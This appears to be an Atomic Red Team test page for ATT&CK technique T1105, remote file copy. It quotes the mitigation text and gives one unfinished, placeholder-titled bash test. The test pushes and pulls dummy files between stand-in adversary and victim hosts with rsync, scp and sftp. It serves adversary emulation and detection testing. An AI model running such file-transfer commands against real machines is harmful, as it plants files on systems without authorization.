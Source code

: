 # T1105 - Remote File Copy Mitigation
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1105)
<blockquote>Network intrusion detection and prevention systems that use network signatures to identify traffic for specific adversary malware or unusual data transfer over known tools and protocols like FTP can be used to mitigate activity at the network level. Signatures are often for unique indicators within protocols and may be based on the specific obfuscation technique used by a particular adversary or tool, and will likely be different across various malware families and versions. Adversaries will likely change tool C2 signatures over time or construct protocols in such a way as to avoid detection by common defensive tools. (Citation: University of Birmingham C2)</blockquote>

## Atomic Tests

- [Atomic Test #1 - xxxx](#atomic-test-1---xxxx)


<br/>

## Atomic Test #1 - xxxx
xxxx

**Supported Platforms:** linux, macos


#### Run it with `bash`!
```
### TODO: Not sure how to handle commands that need to be run on multiple systems

# Adversary System Configuration
# Ensure SSH access has been configured for an adversary account
echo "This file transferred by scp" > /tmp/adversary-scp
echo "This file transferred by sftp" > /tmp/adversary-sftp
mkdir /tmp/adversary-rsync
cd /tmp/adversary-rsync
touch a b c d e f g

# Victim System Configuration
# Ensure SSH access has been configured for a victim account
# Ensure write access for victim account to this directory
mkdir /tmp/victim-files
cd /tmp/victim-files

# Push files to victim using rsync
rsync -r /tmp/adversary-rsync/ victim@victim-host:/tmp/victim-files/

# Pull files from adversary using rsync
rsync -r adversary@adversary-host:/tmp/adversary-rsync/ /tmp/victim-files/

# Push files to victim using scp
scp /tmp/adversary-scp victim@victim-host:/tmp/victim-files/

# Pull file from adversary using scp
scp adversary@adversary-host:/tmp/adversary-scp /tmp/victim-files/scp-file

# Push files to victim using sftp
sftp victim@victim-host:/tmp/victim-files/ <<< $'put /tmp/adversary-sftp'

# Pull file from adversary using sftp
sftp adversary@adversary-host:/tmp/adversary-sftp /tmp/victim-files/sftp-file

```
<br/>
